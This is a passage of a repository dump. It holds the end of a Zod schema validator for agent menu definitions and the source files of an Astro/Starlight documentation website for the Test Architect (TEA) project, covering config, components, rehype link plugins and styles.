      exec: createNonEmptyString('agent.menu[].exec').optional(),
      action: createNonEmptyString('agent.menu[].action').optional(),
      tmpl: createNonEmptyString('agent.menu[].tmpl').optional(),
      data: z.string().optional(),
      checklist: createNonEmptyString('agent.menu[].checklist').optional(),
      document: createNonEmptyString('agent.menu[].document').optional(),
      'ide-only': z.boolean().optional(),
      'web-only': z.boolean().optional(),
      discussion: z.boolean().optional(),
    })
    .strict()
    .superRefine((value, ctx) => {
      const hasCommandTarget = COMMAND_TARGET_KEYS.some((key) => {
        const commandValue = value[key];
        return typeof commandValue === 'string' && commandValue.trim().length > 0;
      });

      if (!hasCommandTarget) {
        ctx.addIssue({
          code: 'custom',
          message: 'agent.menu[] entries must include at least one command target field',
        });
      }
    });

  // Multi menu item format
  const multiMenuItemSchema = z
    .object({
      multi: createNonEmptyString('agent.menu[].multi'),
      triggers: z
        .array(
          z.union([
            // Format 1: Simple flat format (has trigger field)
            z
              .object({
                trigger: z.string(),
                input: createNonEmptyString('agent.menu[].triggers[].input'),
                route: createNonEmptyString('agent.menu[].triggers[].route').optional(),
                action: createNonEmptyString('agent.menu[].triggers[].action').optional(),
                data: z.string().optional(),
                type: z.enum(['exec', 'action', 'workflow']).optional(),
              })
              .strict()
              .refine((data) => data.trigger, { message: 'Must have trigger field' })
              .superRefine((value, ctx) => {
                // Must have either route or action (or both)
                if (!value.route && !value.action) {
                  ctx.addIssue({
                    code: 'custom',
                    message: 'agent.menu[].triggers[] must have either route or action (or both)',
                  });
                }
              }),
            // Format 2a: Object with array format (like bmad-builder.agent.yaml)
            z
              .object({})
              .passthrough()
              .refine(
                (value) => {
                  const keys = Object.keys(value);
                  if (keys.length !== 1) return false;
                  const triggerItems = value[keys[0]];
                  return Array.isArray(triggerItems);
                },
                { message: 'Must be object with single key pointing to array' },
              )
              .superRefine((value, ctx) => {
                const triggerName = Object.keys(value)[0];
                const triggerItems = value[triggerName];

                if (!Array.isArray(triggerItems)) {
                  ctx.addIssue({
                    code: 'custom',
                    message: `Trigger "${triggerName}" must be an array of items`,
                  });
                  return;
                }

                // Check required fields in the array
                const hasInput = triggerItems.some((item) => 'input' in item);
                const hasRouteOrAction = triggerItems.some((item) => 'route' in item || 'action' in item);

                if (!hasInput) {
                  ctx.addIssue({
                    code: 'custom',
                    message: `Trigger "${triggerName}" must have an input field`,
                  });
                }

                if (!hasRouteOrAction) {
                  ctx.addIssue({
                    code: 'custom',
                    message: `Trigger "${triggerName}" must have a route or action field`,
                  });
                }
              }),
            // Format 2b: Object with direct fields (like analyst.agent.yaml)
            z
              .object({})
              .passthrough()
              .refine(
                (value) => {
                  const keys = Object.keys(value);
                  if (keys.length !== 1) return false;
                  const triggerFields = value[keys[0]];
                  return !Array.isArray(triggerFields) && typeof triggerFields === 'object';
                },
                { message: 'Must be object with single key pointing to object' },
              )
              .superRefine((value, ctx) => {
                const triggerName = Object.keys(value)[0];
                const triggerFields = value[triggerName];

                // Check required fields
                if (!triggerFields.input || typeof triggerFields.input !== 'string') {
                  ctx.addIssue({
                    code: 'custom',
                    message: `Trigger "${triggerName}" must have an input field`,
                  });
                }

                if (!triggerFields.route && !triggerFields.action) {
                  ctx.addIssue({
                    code: 'custom',
                    message: `Trigger "${triggerName}" must have a route or action field`,
                  });
                }
              }),
          ]),
        )
        .min(1, { message: 'agent.menu[].triggers must have at least one trigger' }),
      discussion: z.boolean().optional(),
    })
    .strict()
    .superRefine((value, ctx) => {
      // Check for duplicate trigger names
      const seenTriggers = new Set();
      for (const [index, triggerItem] of value.triggers.entries()) {
        let triggerName = null;

        // Extract trigger name from either format
        if (triggerItem.trigger) {
          // Format 1
          triggerName = triggerItem.trigger;
        } else {
          // Format 2
          const keys = Object.keys(triggerItem);
          if (keys.length === 1) {
            triggerName = keys[0];
          }
        }

        if (triggerName) {
          if (seenTriggers.has(triggerName)) {
            ctx.addIssue({
              code: 'custom',
              path: ['agent', 'menu', 'triggers', index],
              message: `Trigger name "${triggerName}" is duplicated`,
            });
          }
          seenTriggers.add(triggerName);

          // Validate trigger name format
          if (!TRIGGER_PATTERN.test(triggerName)) {
            ctx.addIssue({
              code: 'custom',
              path: ['agent', 'menu', 'triggers', index],
              message: `Trigger name "${triggerName}" must be kebab-case (lowercase words separated by hyphen)`,
            });
          }
        }
      }
    });

  return z.union([legacyMenuItemSchema, multiMenuItemSchema]);
}

/**
 * Derive the expected module slug from a file path residing under src/<module>/agents/.
 * @param {string} filePath Absolute or relative agent path.
 * @returns {string|null} Module slug if identifiable, otherwise null.
 */
function deriveModuleFromPath(filePath) {
  assert(filePath, 'validateAgentFile expects filePath to be provided');
  assert(typeof filePath === 'string', 'validateAgentFile expects filePath to be a string');
  assert(filePath.startsWith('src/'), 'validateAgentFile expects filePath to start with "src/"');

  const marker = 'src/';
  if (!filePath.startsWith(marker)) {
    return null;
  }

  const remainder = filePath.slice(marker.length);
  const slashIndex = remainder.indexOf('/');
  return slashIndex === -1 ? null : remainder.slice(0, slashIndex);
}

function normalizeModuleOption(moduleOption) {
  if (typeof moduleOption !== 'string') {
    return null;
  }

  const trimmed = moduleOption.trim();
  return trimmed.length > 0 ? trimmed : null;
}

// Primitive validators -----------------------------------------------------

function createNonEmptyString(label) {
  return z.string().refine((value) => value.trim().length > 0, {
    message: `${label} must be a non-empty string`,
  });
}
```

## File: `website/README.md`
```markdown
# TEA Documentation Website

This directory contains the Astro + Starlight website for Test Architect (TEA) documentation.

## Setup

Install dependencies:

```bash
cd website
npm install
```

## Development

Run the development server:

```bash
npm run dev
```

Visit <http://localhost:4321> to view the site.

## Build

Build the production site:

```bash
npm run build
```

Output is generated to `../build/site/` (configured in `astro.config.mjs`).

## Preview

Preview the production build locally:

```bash
npm run preview
```

## Structure

```
website/
├── astro.config.mjs      # Astro configuration
├── package.json          # Dependencies
├── tsconfig.json         # TypeScript configuration
├── public/               # Static assets
│   ├── favicon.ico
│   ├── robots.txt
│   └── img/              # Images and logos
├── src/
│   ├── components/       # Astro components
│   │   ├── Banner.astro
│   │   ├── Header.astro
│   │   └── MobileMenuFooter.astro
│   ├── content/          # Content collections
│   │   └── config.ts
│   ├── lib/              # Utility libraries
│   │   └── site-url.js
│   ├── pages/            # Page templates
│   │   └── 404.astro
│   ├── styles/           # Custom CSS
│   │   └── custom.css
│   ├── rehype-markdown-links.js  # Rehype plugin for markdown links
│   └── rehype-base-paths.js      # Rehype plugin for base paths
```

## Configuration

The site URL is configured via environment variable or defaults:

```bash
# Set site URL for production
export SITE_URL=https://test-architect.bmad-method.org

# Build with custom URL
SITE_URL=https://test-architect.bmad-method.org npm run build
```

## Deployment

The site is built and deployed via the documentation build pipeline:

```bash
# From project root
npm run docs:build
```

This generates:

- `/build/artifacts/` - LLM files, download bundles
- `/build/site/` - Deployable website

## Documentation Structure

Documentation follows the [Diataxis](https://diataxis.fr/) framework:

- **Tutorials**: Learning-oriented, step-by-step guides
- **How-To Guides**: Task-oriented, goal-focused instructions
- **Explanation**: Understanding-oriented, conceptual content
- **Reference**: Information-oriented, technical specifications
- **Glossary**: Terminology and definitions

## Starlight Features

- **Search**: Built-in full-text search
- **Navigation**: Automatic sidebar from file structure
- **Dark Mode**: Automatic light/dark theme switching
- **Mobile-Friendly**: Responsive design
- **LLM Discovery**: Meta tags for AI agent consumption
- **Sitemap**: Automatic sitemap generation
- **Last Updated**: Git-based timestamps

## Customization

### Components

Custom components override Starlight defaults:

- `Header.astro` - Site header
- `MobileMenuFooter.astro` - Mobile menu footer

### Styles

Custom CSS in `src/styles/custom.css` extends Starlight's default theme.

### Sidebar

Sidebar configuration in `astro.config.mjs` controls navigation structure.

## Links

- Documentation: <https://test-architect.bmad-method.org>
- Repository: <https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise>
- BMAD Method: <https://bmad-method.org>
```

## File: `website/astro.config.mjs`
```
// @ts-check
import { defineConfig } from 'astro/config';
import starlight from '@astrojs/starlight';
import sitemap from '@astrojs/sitemap';
import rehypeMarkdownLinks from './src/rehype-markdown-links.js';
import rehypeBasePaths from './src/rehype-base-paths.js';
import { getSiteUrl } from './src/lib/site-url.js';

const siteUrl = getSiteUrl();
const urlParts = new URL(siteUrl);
// Normalize basePath: ensure trailing slash so links can use `${BASE_URL}path`
const basePath = urlParts.pathname === '/' ? '/' : urlParts.pathname.endsWith('/') ? urlParts.pathname : urlParts.pathname + '/';

export default defineConfig({
  site: `${urlParts.origin}${basePath}`,
  base: basePath,
  outDir: '../build/site',

  // Disable aggressive caching in dev mode
  vite: {
    optimizeDeps: {
      force: true, // Always re-bundle dependencies
    },
    server: {
      watch: {
        usePolling: false, // Set to true if file changes aren't detected
      },
    },
  },

  markdown: {
    rehypePlugins: [
      [rehypeMarkdownLinks, { base: basePath }],
      [rehypeBasePaths, { base: basePath }],
    ],
  },

  integrations: [
    sitemap(),
    starlight({
      title: 'Test Architect (TEA)',
      tagline: 'Risk-based test strategy, automation guidance, and release gate decisions for quality-driven development.',

      // Logo configuration (placeholder - can be updated later with actual TEA logos)
      logo: {
        src: './public/img/tea-logo.svg',
        alt: 'Test Architect (TEA)',
        replacesTitle: false,
      },
      favicon: '/favicon.ico',

      // Social links
      social: [
        {
          icon: 'github',
          label: 'GitHub',
          href: 'https://github.com/bmad-code-org/bmad-method-test-architecture-enterprise',
        },
      ],

      // Show last updated timestamps
      lastUpdated: true,

      // Custom head tags for LLM discovery
      head: [
        {
          tag: 'meta',
          attrs: {
            name: 'ai-terms',
            content: `AI-optimized documentation: ${siteUrl}/llms-full.txt (plain text, ~111k tokens, complete TEA reference). Index: ${siteUrl}/llms.txt`,
          },
        },
        {
          tag: 'meta',
          attrs: {
            name: 'llms-full',
            content: `${siteUrl}/llms-full.txt`,
          },
        },
        {
          tag: 'meta',
          attrs: {
            name: 'llms',
            content: `${siteUrl}/llms.txt`,
          },
        },
      ],

      // Custom CSS
      customCss: ['./src/styles/custom.css'],

      // Sidebar configuration (Diataxis structure)
      sidebar: [
        { label: 'Welcome', slug: 'index' },
        { label: 'TEA Overview', slug: 'explanation/tea-overview' },
        {
          label: 'Tutorials',
          collapsed: false,
          autogenerate: { directory: 'tutorials' },
        },
        {
          label: 'How-To Guides',
          collapsed: true,
          items: [
            {
              label: 'Workflows',
              items: [
                { label: 'Teach Me Testing', slug: 'how-to/workflows/teach-me-testing' },
                { label: 'Set Up Test Framework', slug: 'how-to/workflows/setup-test-framework' },
                { label: 'Set Up CI Pipeline', slug: 'how-to/workflows/setup-ci' },
                { label: 'Test Design', slug: 'how-to/workflows/run-test-design' },
                { label: 'ATDD', slug: 'how-to/workflows/run-atdd' },
                { label: 'Automate', slug: 'how-to/workflows/run-automate' },
                { label: 'Test Review', slug: 'how-to/workflows/run-test-review' },
                { label: 'Trace', slug: 'how-to/workflows/run-trace' },
                { label: 'NFR Assessment', slug: 'how-to/workflows/run-nfr-assess' },
              ],
            },
            {
              label: 'Customization',
              autogenerate: { directory: 'how-to/customization' },
            },
            {
              label: 'Brownfield Projects',
              autogenerate: { directory: 'how-to/brownfield' },
            },
          ],
        },
        {
          label: 'Explanation',
          collapsed: true,
          items: [
            { label: 'Testing as Engineering', slug: 'explanation/testing-as-engineering' },
            { label: 'Engagement Models', slug: 'explanation/engagement-models' },
            { label: 'Risk-Based Testing', slug: 'explanation/risk-based-testing' },
            { label: 'Test Quality Standards', slug: 'explanation/test-quality-standards' },
            { label: 'Knowledge Base System', slug: 'explanation/knowledge-base-system' },
            { label: 'Network-First Patterns', slug: 'explanation/network-first-patterns' },
            { label: 'Fixture Architecture', slug: 'explanation/fixture-architecture' },
            { label: 'Step-File Architecture', slug: 'explanation/step-file-architecture' },
            { label: 'Subagent Architecture', slug: 'explanation/subagent-architecture' },
          ],
        },
        {
          label: 'Reference',
          collapsed: true,
          items: [
            { label: 'Commands', slug: 'reference/commands' },
            { label: 'Configuration', slug: 'reference/configuration' },
            { label: 'Knowledge Base', slug: 'reference/knowledge-base' },
            { label: 'Troubleshooting', slug: 'reference/troubleshooting' },
          ],
        },
        {
          label: 'Glossary',
          slug: 'glossary',
        },
      ],

      // Credits in footer
      credits: false,

      // Pagination
      pagination: true,

      // Use our brain/knowledge/docs_legacy/404.md instead of Starlight's built-in 404
      disable404Route: true,

      // Custom components
      components: {
        Header: './src/components/Header.astro',
        MobileMenuFooter: './src/components/MobileMenuFooter.astro',
      },

      // Table of contents
      tableOfContents: { minHeadingLevel: 2, maxHeadingLevel: 3 },
    }),
  ],
});
```

## File: `website/package.json`
```json
{
  "$schema": "https://json.schemastore.org/package.json",
  "name": "tea-docs-website",
  "version": "1.0.0",
  "private": true,
  "description": "Test Architect (TEA) documentation website",
  "type": "module",
  "scripts": {
    "build": "astro check && astro build",
    "check": "astro check",
    "dev": "astro dev",
    "docs:dev": "rm -rf .astro && astro dev --host 127.0.0.1 --port 4321",
    "preview": "astro preview"
  },
  "dependencies": {
    "@astrojs/sitemap": "^3.6.0",
    "@astrojs/starlight": "^0.37.0",
    "astro": "^5.16.0",
    "sharp": "^0.33.5"
  },
  "devDependencies": {
    "@types/node": "^22.10.5"
  }
}
```

## File: `website/tsconfig.json`
```json
{
  "extends": "astro/tsconfigs/strict",
  "compilerOptions": {
    "baseUrl": ".",
    "paths": {
      "@/*": ["./src/*"]
    }
  }
}
```

## File: `website/public/robots.txt`
```
# Test Architect (TEA) Documentation
# https://test-architect.bmad-method.org
#
# This file controls web crawler access to the documentation site.

User-agent: *
Allow: /

# LLM-friendly documentation files
# These are specifically designed for AI consumption
# llms.txt - Concise overview with navigation
# llms-full.txt - Complete documentation in plain text

# AI Crawlers - Welcome!
User-agent: GPTBot
Allow: /

User-agent: ChatGPT-User
Allow: /

User-agent: Google-Extended
Allow: /

User-agent: CCBot
Allow: /

User-agent: anthropic-ai
Allow: /

User-agent: Claude-Web
Allow: /

User-agent: cohere-ai
Allow: /

# Sitemap
Sitemap: https://test-architect.bmad-method.org/sitemap.xml
```

## File: `website/src/rehype-base-paths.js`
```javascript
/**
 * Rehype plugin to prepend base path to absolute URLs
 *
 * Transforms:
 *   /img/foo.png → /BMAD-METHOD/img/foo.png (when base is /BMAD-METHOD/)
 *   /downloads/file.zip → /BMAD-METHOD/downloads/file.zip
 *   /llms.txt → /BMAD-METHOD/llms.txt
 *
 * Only affects absolute paths (/) - relative paths and external URLs are unchanged.
 * Does NOT process .md links (those are handled by rehype-markdown-links).
 */

import { visit } from 'unist-util-visit';

/**
 * Create a rehype plugin that prepends the base path to absolute URLs.
 *
 * @param {Object} options - Plugin options
 * @param {string} options.base - The base path to prepend (e.g., '/BMAD-METHOD/')
 * @returns {function} A HAST tree transformer
 */
export default function rehypeBasePaths(options = {}) {
  const base = options.base || '/';

  // Normalize base: ensure it ends with / and doesn't have double slashes
  const normalizedBase = base === '/' ? '/' : base.endsWith('/') ? base : base + '/';

  return (tree) => {
    visit(tree, 'element', (node) => {
      // Process img tags with src attribute
      if (node.tagName === 'img' && node.properties?.src) {
        const src = node.properties.src;

        if (typeof src === 'string' && src.startsWith('/') && !src.startsWith('//')) {
          // Don't transform if already has the base path
          if (normalizedBase !== '/' && !src.startsWith(normalizedBase)) {
            node.properties.src = normalizedBase + src.slice(1);
          }
        }
      }

      // Process iframe tags with src attribute
      if (node.tagName === 'iframe' && node.properties?.src) {
        const src = node.properties.src;

        if (typeof src === 'string' && src.startsWith('/') && !src.startsWith('//')) {
          // Don't transform if already has the base path
          if (normalizedBase !== '/' && !src.startsWith(normalizedBase)) {
            node.properties.src = normalizedBase + src.slice(1);
          }
        }
      }

      // Process anchor tags with href attribute
      if (node.tagName === 'a' && node.properties?.href) {
        const href = node.properties.href;

        if (typeof href !== 'string') {
          return;
        }

        // Only transform absolute paths starting with / (but not //)
        if (!href.startsWith('/') || href.startsWith('//')) {
          return;
        }

        // Skip if already has the base path
        if (normalizedBase !== '/' && href.startsWith(normalizedBase)) {
          return;
        }

        // Skip .md links - those are handled by rehype-markdown-links
        // Extract path portion (before ? and #)
        const firstDelimiter = Math.min(
          href.indexOf('?') === -1 ? Infinity : href.indexOf('?'),
          href.indexOf('#') === -1 ? Infinity : href.indexOf('#'),
        );
        const pathPortion = firstDelimiter === Infinity ? href : href.substring(0, firstDelimiter);

        if (pathPortion.endsWith('.md')) {
          return; // Let rehype-markdown-links handle this
        }

        // Prepend base path
        node.properties.href = normalizedBase + href.slice(1);
      }
    });
  };
}
```

## File: `website/src/rehype-markdown-links.js`
```javascript
/**
 * Rehype plugin to transform markdown file links (.md) to page routes
 *
 * Transforms:
 *   ./path/to/file.md → ./path/to/file/
 *   ./path/index.md → ./path/ (index.md becomes directory root)
 *   ../path/file.md#anchor → ../path/file/#anchor
 *   ./file.md?query=param → ./file/?query=param
 *   /brain/knowledge/docs_legacy/absolute/path/file.md → {base}/absolute/path/file/
 *
 * For absolute paths starting with /brain/knowledge/docs_legacy/, the /docs prefix is stripped
 * since the Astro site serves content from the docs directory as the root.
 * The base path is prepended to absolute paths for subdirectory deployments.
 *
 * Affects relative links (./, ../) and absolute paths (/) - external links are unchanged
 */

import { visit } from 'unist-util-visit';

/**
 * Convert Markdown file links (.md) into equivalent page route-style links.
 *
 * The returned transformer walks the HTML tree and rewrites anchor `href` values that are relative paths (./, ../) or absolute paths (/) pointing to `.md` files. It preserves query strings and hash anchors, rewrites `.../index.md` to the directory root path (`.../`), and rewrites other `.md` file paths by removing the `.md` extension and ensuring a trailing slash. External links (http://, https://) and non-.md links are left unchanged.
 *
 * @param {Object} options - Plugin options
 * @param {string} options.base - The base path to prepend to absolute URLs (e.g., '/BMAD-METHOD/')
 * @returns {function} A HAST tree transformer that mutates `a` element `href` properties as described.
 */
export default function rehypeMarkdownLinks(options = {}) {
  const base = options.base || '/';
  // Normalize base: ensure it ends with / and doesn't have double slashes
  const normalizedBase = base === '/' ? '' : base.endsWith('/') ? base.slice(0, -1) : base;

  return (tree) => {
    visit(tree, 'element', (node) => {
      // Only process anchor tags with href
      if (node.tagName !== 'a' || !node.properties?.href) {
        return;
      }

      const href = node.properties.href;

      // Skip if not a string (shouldn't happen, but be safe)
      if (typeof href !== 'string') {
        return;
      }

      // Skip external links (http://, https://, mailto:, etc.)
      if (href.includes('://') || href.startsWith('mailto:') || href.startsWith('tel:')) {
        return;
      }

      // Only transform paths starting with ./, ../, or / (absolute)
      if (!href.startsWith('./') && !href.startsWith('../') && !href.startsWith('/')) {
        return;
      }

      // Extract path portion (before ? and #) to check if it's a .md file
      const firstDelimiter = Math.min(
        href.indexOf('?') === -1 ? Infinity : href.indexOf('?'),
        href.indexOf('#') === -1 ? Infinity : href.indexOf('#'),
      );
      const pathPortion = firstDelimiter === Infinity ? href : href.substring(0, firstDelimiter);

      // Don't transform if path doesn't end with .md
      if (!pathPortion.endsWith('.md')) {
        return;
      }

      // Split the URL into parts: path, anchor, and query
      let urlPath = pathPortion;
      let anchor = '';
      let query = '';

      // Extract query string and anchor from original href
      if (firstDelimiter !== Infinity) {
        const suffix = href.substring(firstDelimiter);
        const anchorInSuffix = suffix.indexOf('#');
        if (suffix.startsWith('?')) {
          if (anchorInSuffix !== -1) {
            query = suffix.substring(0, anchorInSuffix);
            anchor = suffix.substring(anchorInSuffix);
          } else {
            query = suffix;
          }
        } else {
          // starts with #
          anchor = suffix;
        }
      }

      // Track if this was an absolute path (for base path prepending)
      const isAbsolute = urlPath.startsWith('/');

      // Strip /brain/knowledge/docs_legacy/ prefix from absolute paths (repo-relative → site-relative)
      if (urlPath.startsWith('/brain/knowledge/docs_legacy/')) {
        urlPath = urlPath.slice(5); // Remove '/docs' prefix, keeping the leading /
      }

      // Transform .md to /
      // Special case: index.md → directory root (e.g., ./tutorials/index.md → ./tutorials/)
      if (urlPath.endsWith('/index.md')) {
        urlPath = urlPath.replace(/\/index\.md$/, '/');
      } else {
        urlPath = urlPath.replace(/\.md$/, '/');
      }

      // Prepend base path to absolute URLs for subdirectory deployments
      if (isAbsolute && normalizedBase) {
        urlPath = normalizedBase + urlPath;
      }

      // Reconstruct the href
      node.properties.href = urlPath + query + anchor;
    });
  };
}
```

## File: `website/src/components/Banner.astro`
```
---
import { getSiteUrl } from '../lib/site-url.js';

const SITE_URL = getSiteUrl();
const fullDocsUrl = `${SITE_URL}/llms-full.txt`;
---

<div class="ai-banner">
  <span>🤖 Consolidated, AI-optimized BMAD docs: <a href={fullDocsUrl}>llms-full.txt</a>. Fetch this plain text file for complete context.</span>
</div>

<style>
  .ai-banner {
    width: 100vw; /* Full viewport width */
    margin-left: calc(-50vw + 50%); /* Center and break out of container */
    height: var(--ai-banner-height, 2.75rem);
    background: #334155;
    color: rgb(148, 163, 184);
    padding: 0.5rem 1rem;
    font-size: 0.875rem;
    border-bottom: 1px solid rgba(140, 140, 255, 0.15);
    display: flex;
    align-items: center;
    justify-content: center;
    box-sizing: border-box;
    font-family: system-ui, sans-serif;
  }

  /* Truncate text on narrow screens */
  .ai-banner span {
    white-space: nowrap;
    overflow: hidden;
    text-overflow: ellipsis;
    max-width: 100%;
  }
  .ai-banner a {
    color: #8C8CFF;
    text-decoration: none;
    font-weight: 600;
  }
  .ai-banner a:hover {
    text-decoration: underline;
  }

  /* Match navbar padding at breakpoints */
  @media (min-width: 50rem) {
    .ai-banner {
      padding-left: 2.5rem;
      padding-right: 2.5rem;
    }
  }

  @media (min-width: 72rem) {
    .ai-banner {
      padding-left: 3rem;
      padding-right: 3rem;
    }
  }
</style>
```

## File: `website/src/components/Header.astro`
```
---
import config from 'virtual:starlight/user-config';
import type { Props } from '@astrojs/starlight/props';

import LanguageSelect from 'virtual:starlight/components/LanguageSelect';
import Search from 'virtual:starlight/components/Search';
import SiteTitle from 'virtual:starlight/components/SiteTitle';
import SocialIcons from 'virtual:starlight/components/SocialIcons';
import ThemeSelect from 'virtual:starlight/components/ThemeSelect';

import Banner from './Banner.astro';

/**
 * Render the `Search` component if Pagefind is enabled or the default search component has been overridden.
 */
const shouldRenderSearch =
	config.pagefind || config.components.Search !== '@astrojs/starlight/components/Search.astro';
---

<Banner />
<div class="header sl-flex">
	<div class="title-wrapper sl-flex">
		<SiteTitle {...Astro.props} />
	</div>
	<div class="sl-flex print:hidden">
		{shouldRenderSearch && <Search {...Astro.props} />}
	</div>
	<div class="sl-hidden md:sl-flex print:hidden right-group">
		<nav class="sl-flex nav-links">
			<a href={`${import.meta.env.BASE_URL}downloads/`}>Downloads</a>
		</nav>
		<div class="sl-flex social-icons">
			<SocialIcons {...Astro.props} />
		</div>
		<ThemeSelect {...Astro.props} />
		<LanguageSelect {...Astro.props} />
	</div>
</div>

<style>
	.header {
		gap: var(--sl-nav-gap);
		justify-content: space-between;
		align-items: center;
		height: 100%;
	}

	.title-wrapper {
		/* Prevent long titles overflowing and covering the search and menu buttons on narrow viewports. */
		overflow: clip;
		/* Avoid clipping focus ring around link inside title wrapper. */
		padding: 0.25rem;
		margin: -0.25rem;
		min-width: 0;
	}

	.right-group,
	.social-icons,
	.nav-links {
		gap: 1rem;
		align-items: center;
	}

	.nav-links a {
		color: var(--sl-color-white);
		text-decoration: none;
		font-size: 0.875rem;
		font-weight: 500;
		padding: 0.25rem 0.5rem;
		border-radius: 4px;
		transition: color 0.15s ease, background-color 0.15s ease;
	}

	.nav-links a:hover {
		color: var(--sl-color-accent);
		background-color: rgba(140, 140, 255, 0.1);
	}

	.nav-links::after {
		content: '';
		height: 2rem;
		border-inline-end: 1px solid var(--sl-color-gray-5);
	}

	.social-icons::after {
		content: '';
		height: 2rem;
		border-inline-end: 1px solid var(--sl-color-gray-5);
	}

	@media (min-width: 50rem) {
		:global(:root[data-has-sidebar]) {
			--__sidebar-pad: calc(2 * var(--sl-nav-pad-x));
		}
		:global(:root:not([data-has-toc])) {
			--__toc-width: 0rem;
		}
		.header {
			--__sidebar-width: max(0rem, var(--sl-content-inline-start, 0rem) - var(--sl-nav-pad-x));
			--__main-column-fr: calc(
				(
						100% + var(--__sidebar-pad, 0rem) - var(--__toc-width, var(--sl-sidebar-width)) -
							(2 * var(--__toc-width, var(--sl-nav-pad-x))) - var(--sl-content-inline-start, 0rem) -
							var(--sl-content-width)
					) / 2
			);
			display: grid;
			grid-template-columns:
        /* 1 (site title): runs up until the main content column’s left edge or the width of the title, whichever is the largest  */
				minmax(
					calc(var(--__sidebar-width) + max(0rem, var(--__main-column-fr) - var(--sl-nav-gap))),
					auto
				)
				/* 2 (search box): all free space that is available. */
				1fr
				/* 3 (right items): use the space that these need. */
				auto;
			align-content: center;
		}
	}
</style>
```

## File: `website/src/components/MobileMenuFooter.astro`
```
---
import LanguageSelect from 'virtual:starlight/components/LanguageSelect';
import SocialIcons from 'virtual:starlight/components/SocialIcons';
import ThemeSelect from 'virtual:starlight/components/ThemeSelect';
import type { Props } from '@astrojs/starlight/props';
---

<div class="mobile-preferences sl-flex">
	<div class="sl-flex social-icons">
		<SocialIcons {...Astro.props} />
	</div>
	<nav class="sl-flex nav-links">
		<a href={`${import.meta.env.BASE_URL}downloads/`}>Downloads</a>
	</nav>
	<ThemeSelect {...Astro.props} />
	<LanguageSelect {...Astro.props} />
</div>

<style>
	.social-icons {
		gap: 1rem;
		align-items: center;
		padding-block: 1rem;
	}
	.social-icons:empty {
		display: none;
	}
	.mobile-preferences {
		justify-content: space-between;
		flex-wrap: wrap;
		border-top: 1px solid var(--sl-color-gray-6);
		column-gap: 1rem;
		padding: 0.5rem 0;
		align-items: center;
	}
	.nav-links {
		gap: 1rem;
		align-items: center;
	}
	.nav-links a {
		color: var(--sl-color-white);
		text-decoration: none;
		font-size: 0.875rem;
		font-weight: 500;
		padding: 0.5rem 0.75rem;
		border-radius: 4px;
		transition: color 0.15s ease, background-color 0.15s ease;
	}
	.nav-links a:hover {
		color: var(--sl-color-accent);
		background-color: rgba(140, 140, 255, 0.1);
	}
</style>
```

## File: `website/src/content/config.ts`
```typescript
import { defineCollection } from 'astro:content';
import { docsSchema } from '@astrojs/starlight/schema';

export const collections = {
  docs: defineCollection({ schema: docsSchema() }),
};
```

## File: `website/src/content/docs`
```
../../../docs
```

## File: `website/src/lib/site-url.js`
```javascript
/**
 * Resolve the site's base URL using cascading environment defaults.
 *
 * Preference order: use SITE_URL if set; otherwise derive a GitHub Pages URL from GITHUB_REPOSITORY; otherwise use the local development URL.
 * @returns {string} The resolved site URL (SITE_URL override, or `https://{owner}.github.io/{repo}`, or `http://localhost:3000`).
 */
export function getSiteUrl() {
  // Explicit override (works in both local and GitHub Actions)
  if (process.env.SITE_URL) {
    return process.env.SITE_URL;
  }

  // GitHub Actions: compute from repository context
  if (process.env.GITHUB_REPOSITORY) {
    const parts = process.env.GITHUB_REPOSITORY.split('/');
    if (parts.length !== 2 || !parts[0] || !parts[1]) {
      throw new Error(`Invalid GITHUB_REPOSITORY format: "${process.env.GITHUB_REPOSITORY}". Expected "owner/repo".`);
    }
    const [owner, repo] = parts;
    return `https://${owner}.github.io/${repo}`;
  }

  // Local development: use dev server
  return 'http://localhost:3000';
}
```

## File: `website/src/pages/404.astro`
```
---
import StarlightPage from '@astrojs/starlight/components/StarlightPage.astro';
import { getEntry } from 'astro:content';

const entry = await getEntry('docs', '404');
const { Content } = await entry.render();
---

<StarlightPage frontmatter={{ title: entry.data.title, template: entry.data.template }}>
  <Content />
</StarlightPage>
```

## File: `website/src/styles/custom.css`
```css
/**
 * BMAD Method Documentation - Custom Styles for Starlight
 * Electric Blue theme optimized for dark mode
 *
 * CSS Variable Mapping:
 * Docusaurus → Starlight
 * --ifm-color-primary → --sl-color-accent
 * --ifm-background-color → --sl-color-bg
 * --ifm-font-color-base → --sl-color-text
 */

/* ============================================
   COLOR PALETTE - Light Mode
   ============================================ */
:root {
  --ai-banner-height: 2.75rem;
  --sl-nav-height: 6.25rem; /* Base nav height (~3.5rem) + banner height (2.75rem) */

  /* Full-width content - override Starlight's default 45rem/67.5rem */
  --sl-content-width: 100%;

  /* Primary accent colors - purple to match Docusaurus */
  --sl-color-accent-low: #e0e0ff;
  --sl-color-accent: #8c8cff;
  --sl-color-accent-high: #4141ff;

  /* Text colors */
  --sl-color-white: #1e293b;
  --sl-color-gray-1: #334155;
  --sl-color-gray-2: #475569;
  --sl-color-gray-3: #64748b;
  --sl-color-gray-4: #94a3b8;
  --sl-color-gray-5: #cbd5e1;
  --sl-color-gray-6: #e2e8f0;
  --sl-color-black: #f8fafc;

  /* Font settings */
  --sl-font: system-ui, -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, 'Helvetica Neue', Arial, sans-serif;
  --sl-text-base: 1rem;
  --sl-line-height: 1.7;

  /* Code highlighting */
  --sl-color-bg-inline-code: rgba(140, 140, 255, 0.1);
}

/* ============================================
   COLOR PALETTE - Dark Mode (Primary Focus)
   ============================================ */
:root[data-theme='dark'] {
  /* Full-width content - override Starlight's default */
  --sl-content-width: 100%;

  /* Primary accent colors - purple to match Docusaurus */
  --sl-color-accent-low: #2a2a5a;
  --sl-color-accent: #8c8cff;
  --sl-color-accent-high: #b9b9ff;

  /* Background colors */
  --sl-color-bg: #1b1b1d;
  --sl-color-bg-nav: #1b1b1d;
  --sl-color-bg-sidebar: #1b1b1d;
  --sl-color-hairline-light: rgba(140, 140, 255, 0.1);
  --sl-color-hairline: rgba(140, 140, 255, 0.15);

  /* Text colors */
  --sl-color-white: #f8fafc;
  --sl-color-gray-1: #e2e8f0;
  --sl-color-gray-2: #cbd5e1;
  --sl-color-gray-3: #94a3b8;
  --sl-color-gray-4: #64748b;
  --sl-color-gray-5: #475569;
  --sl-color-gray-6: #334155;
  --sl-color-black: #1b1b1d;

  /* Code highlighting */
  --sl-color-bg-inline-code: rgba(140, 140, 255, 0.15);
}

/* ============================================
   TYPOGRAPHY
   ============================================ */
.sl-markdown-content h1 {
